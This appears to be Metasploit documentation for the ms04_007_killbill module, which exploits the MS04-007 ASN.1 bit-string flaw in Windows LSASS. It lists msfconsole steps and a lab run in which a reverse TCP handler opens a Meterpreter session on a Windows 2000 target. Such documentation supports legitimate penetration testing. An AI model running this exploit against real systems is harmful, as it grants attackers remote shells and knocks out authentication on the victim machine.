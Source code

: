## Vulnerable Application

This is an exploit for a previously undisclosed vulnerability in the bit string decoding code in the Microsoft ASN.1 library. This vulnerability is not related to the bit string vulnerability described in eEye advisory AD20040210-2. Both vulnerabilities were fixed in the MS04-007 patch.

You are only allowed one attempt with this vulnerability. If the payload fails to execute, the LSASS system service will crash and the target system will automatically reboot itself in 60 seconds. If the payload succeeds, the system will no longer be able to process authentication requests, denying all attempts to login through SMB or at the console. A reboot is required to restore proper functioning of an exploited system.

This exploit has been successfully tested with the win32/[all]/reverse_tcp payloads, however a few problems were encountered when using the equivalent bind payloads. Your mileage may vary.

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/exploits/windows/smb/ms04_007_killbill`
  3. Do: `set RHOSTS [IP]`
  4. Do: `run`

## Scenarios

### A run on Windows 2000 (Build 2195, SP4) and Kali Linux 2019.3

  ```      
  msf > use modules/exploits/windows/smb/ms04_007_killbill
  msf exploit(windows/smb/ms04_007_killbill) > set RHOSTS 192.168.1.2
    RHOSTS => 192.168.1.2
  msf exploit(windows/smb/ms04_007_killbill) > run
    [*] Started reverse TCP handler on 192.168.1.3:4444
    [-] 192.168.1.2:445 - Error: The server responded with error: STATUS_ACCESS_VIOLATION (Command=115 WordCount=0)
    [*] Sending stage (180291 bytes) to 192.168.1.2
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.2:1050) at 2019-11-27 19:08:46 -0700
  ```
